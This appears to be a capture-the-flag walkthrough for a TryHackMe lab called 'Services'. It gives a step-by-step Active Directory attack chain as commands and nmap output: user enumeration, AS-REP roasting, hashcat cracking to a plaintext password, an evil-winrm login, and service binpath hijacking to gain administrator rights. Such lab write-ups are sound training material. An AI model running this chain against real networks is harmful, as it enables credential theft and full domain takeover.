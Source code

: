 # Services-THM-Walkthrough

export IP=10.10.117.221
export myIP=10.13.24.71

sudo nmap -v --min-rate 10000 <Target's IP address> -p- | grep open

sort nmap results
cat tmp | sed 's/\// /g' | awk '{print $1}' | tr "\n" ","

full scan:
sudo nmap -v -sVC -oN nmap.txt <Target's IP address> -p <ports>

roasting:
smbclient -L //$IP/
smbmap -u 'anonymous' -H $IP

ENUMERATION:
walk the port 80 website, create name list

KERBRUTE:
username enum

kerbrute userenum --dc $IP -d services.local users.txt

AS-REP ROASTING WITH GetNPUsers.py:
GetNPUsers.py -dc-ip $IP -request 'services.local/' -usersfile users.txt -format hashcat

j.rock hash is revealed!

Use hashcat to crack the hash:
hashcat -m 18200 hash.txt rockyou.txt
j.rock:Serviceworks1

EVIL-WINRM
login with:
evil-winrm -i $IP -u j.rock -p Serviceworks1

LOCAL ENUMERATION
whoami /all

build a revshell exe binary with this github:
https://github.com/dev-frog/C-Reverse-Shell

BINPATH HIJACKING
sc.exe config cfn-hup binpath="net localgroup administrators j.rock /add"
start and stop the service
log out/in

CHANGE THE ADMIN PASSWORD
net user administrator hellothisisatest123!

log out and back in with admin 


└─$ nmap -F $IP                                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 20:35 EDT
Nmap scan report for 10.10.38.22
Host is up (0.24s latency).
Not shown: 92 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds

Nmap scan report for 10.10.38.22
Host is up (0.22s latency).
Not shown: 65492 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
390/tcp   filtered uis
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
2080/tcp  filtered autodesk-nlm
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3389/tcp  open     ms-wbt-server
5340/tcp  filtered unknown
5985/tcp  open     wsman
9389/tcp  open     adws
12346/tcp filtered netbus
14884/tcp filtered unknown
25455/tcp filtered unknown
25719/tcp filtered unknown
32436/tcp filtered unknown
36588/tcp filtered unknown
37768/tcp filtered unknown
42301/tcp filtered unknown
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49669/tcp open     unknown
49670/tcp open     unknown
49671/tcp open     unknown
49673/tcp open     unknown
49674/tcp open     unknown
49676/tcp open     unknown
49694/tcp open     unknown
49702/tcp open     unknown
53481/tcp filtered unknown
63399/tcp filtered unknown
63410/tcp open     unknown
65353/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 3848.32 seconds

dirbusting:


